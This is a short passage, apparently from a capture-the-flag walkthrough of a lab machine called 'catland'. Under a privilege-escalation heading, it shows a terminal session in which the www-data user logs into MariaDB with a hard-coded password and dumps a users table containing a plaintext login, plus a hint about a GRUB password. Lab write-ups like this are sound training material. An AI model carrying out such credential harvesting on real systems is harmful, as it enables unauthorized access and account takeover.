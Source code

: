 ## Priviledge Escalation (MySQL)

```bash
www-data@catland:/var/www/admin$ mysql -u admin -pcatlandpassword123
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 33
Server version: 10.5.18-MariaDB-0+deb11u1 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| catland            |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use catland;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [catland]> show tables;
+-------------------+
| Tables_in_catland |
+-------------------+
| comment           |
| users             |
+-------------------+
2 rows in set (0.001 sec)

MariaDB [catland]> select * from users;
+----------+------------+
| username | password   |
+----------+------------+
| laura    | laura_2008 |
+----------+------------+
1 row in set (0.001 sec)

MariaDB [catland]> select * from comment;
+----------------------+
| grub                 |
+----------------------+
| change grub password |
+----------------------+
1 row in set (0.001 sec)

MariaDB [catland]>

```
